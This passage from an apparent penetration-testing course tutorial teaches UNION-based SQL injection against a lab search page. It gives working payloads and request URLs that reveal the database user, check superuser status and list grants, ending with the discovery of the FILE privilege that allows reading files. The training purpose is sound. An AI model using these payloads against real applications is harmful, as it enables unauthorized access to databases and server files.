 Our `UNION` injection payload will be as follows:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
or
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, i.e. `root` (by using `http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, user(), 3, 4-- -`). This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

#### User Privileges

Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:
```sql
SELECT super_priv FROM mysql.user
```
Once again, we can use the following payload with the above query:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user root:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
![root_privs](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:
```sql
SELECT sql_grants FROM information_schema.sql_show_grants
```

Once again, we can add `WHERE user="root"` to only show our current user `root` privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
```
And we see all of the possible privileges given to our current user:
```
http://SERVER_IP:PORT/search.php?port_code=cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
![root_privs_2](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that our user has `YES` to all privileges. Most importantly, the `FILE` privilege is also enabled, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.
